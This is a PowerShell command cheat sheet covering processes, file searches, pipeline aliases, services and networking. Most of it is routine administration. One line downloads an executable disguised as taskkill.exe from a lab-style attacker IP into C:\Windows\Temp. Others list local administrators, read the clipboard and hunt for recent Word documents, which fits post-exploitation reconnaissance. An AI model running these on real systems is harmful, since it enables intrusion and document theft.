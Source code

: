 ```bash
Get the threads of a given process
(Get-Process -Name vim).Threads
(Get-Process -Name vim).Threads | ForEach-Object { $_.ThreadState }
foreach($proc in (Get-Process -Name "chrome")) { $id=$proc.Id; echo "#### $id ######"; $proc.Threads|ForEach-Object Id }
Finding certain files: 
Get-ChildItem -Path C:\ -Include *.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue | Where-Object { $_.LastWriteTime -ge $FindDate }
Get-ChildItem -Path C:\ -Filter *.doc -File -ErrorAction SilentlyContinue | Where-Object { $_.LastWriteTime -ge $FindDate }

% means Foreach-Object:
Get-ChildItem | % { echo $_.name }

Write many variables:
Get-ChildItem | % { Write-Host $_.Length $_.Name -Separator "`t" }

Where-Object: to filter out the objects coming from the pipeline ( ? is the alias)
get-ChildItem| ? {$_.length –gt 10000000 | % {write-host $_.length $_.name -separator "`t`t"}

Filtering(?) and Foreach-ing(%):
Get-ChildItem | ? { $_.Length -le 18 } | % { write-host $_.Length $_.Name -Separator "`t`t" }

Show all the members of the object
Get-ChildItem .\MsMpEng.exe | Select-Object *

Use a hashmap to count number of distinct verb commands we have
$counts=@{}; foreach($verb in (Get-Command | % Verb)) { $counts[$verb]+=1 }; $counts.GetEnumerator() | Sort-Object -Property Value -Descending

Downloading from web:
(New-Object Net.WebClient).DownloadFile("http://10.10.14.2:80/taskkill.exe","C:\Windows\Temp\taskkill.exe")
$res = (New-Object Net.WebClient).DownloadString("https://index.hu")
Invoke-WebRequest "https://index.hu/" -OutFile .\Downloads\index.html

List admin accounts:
Get-LocalGroupMember Administrators

Clipboard access:
Get-Clipboard

Processes:
Get-Process | where {$_.ProcessName -notlike "svchost*"} | ft ProcessName, Id

Services:
Get-Service
Get-Service | ? Status -like Running

Network interfaces:
Get-NetIPConfiguration | ft InterfaceAlias,InterfaceDescription,IPv4Address
Get-DnsClientServerAddress -AddressFamily IPv4 | ft


```

